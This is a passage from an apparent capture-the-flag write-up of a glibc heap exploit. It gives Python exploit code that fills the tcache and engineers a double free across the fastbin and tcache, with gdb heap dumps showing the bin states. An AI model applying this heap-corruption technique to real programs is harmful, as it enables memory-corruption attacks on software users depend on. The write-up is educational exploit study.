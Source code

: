 You'll see a common theme here is to fill the tcache with a bunch of objects to defeat the mitigations put in place. This time, I chose the bucket containg size 48 (I think it's sized at 64), large enough that I would have some
flexibility, but also small enough to not be cumbersome and not interact with the previously corrupted bins (mucking with those is an easy way to crash the program).

```python
# we don't care about the 7 x 8 bytes
# 7 x 48 bytes to fill
num_tcache_again = 7
for i in range(num_tcache_again):
    t = pop_id(foureight, 12)
    new_acct(t, b'')
    free_in_x_funds(t, i + 1)
    p.clean()

for i in range(num_tcache_again):
    run_funds()
    p.clean()
```

```
(gdb) heapinfoall

(0x20)     fastbin[0]: 0x5577b30edd30 --> 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x5577b30ee6c0 --> 0x5577b30ee600 --> 0x0
(0x50)     fastbin[3]: 0x5577b30ee330 --> 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x5577b30ee740 (size : 0x1d8c0)
       last_remainder: 0x5577b30ee140 (size : 0x30)
            unsortbin: 0x0
(0x20)   tcache_entry[0](7): 0x5577b30ee650 --> 0x5577b30ee5f0 --> 0x5577b30ee590 --> 0x5577b30ee530 --> 0x5577b30ee4d0 --> 0x5577b30ee0f0 --> 0x5577b30ee6b0
(0x30)   tcache_entry[1](1): 0x5577b30ee150
(0x40)   tcache_entry[2](7): 0x5577b30ee5b0 --> 0x5577b30ee550 --> 0x5577b30ee4f0 --> 0x5577b30ee490 --> 0x5577b30ee110 --> 0x5577b30ee670 --> 0x5577b30ee710
(0x60)   tcache_entry[4](1): 0x5577b30ee430
(0x80)   tcache_entry[6](1): 0x5577b30eb480
(0x90)   tcache_entry[7](7): 0x5577b30ee220 --> 0x5577b30edfc0 --> 0x5577b30ede90 --> 0x5577b30edd60 --> 0x5577b30edc10 --> 0x5577b30edb80 --> 0x5577b30ee2b0
(0x100)   tcache_entry[14](1): 0x5577b30eb910
(0x1e0)   tcache_entry[28](1): 0x5577b30eb2a0
```
And 7 entries in the tcache. Now we just need to allocate 7 entries to free it and we're set.
```python
for i in range(7):
    t = pop_id(foureight, 1)
    new_acct(t, b'')
    p.clean()
    
# the last chunk in the original 7 chunks
# will be freed twice, once into the fastbin
# and once into the tcache
run_funds()
```
```
(gdb) heapinfoall

(0x20)     fastbin[0]: 0x5577b30edd30 --> 0x0
(0x30)     fastbin[1]: 0x0
```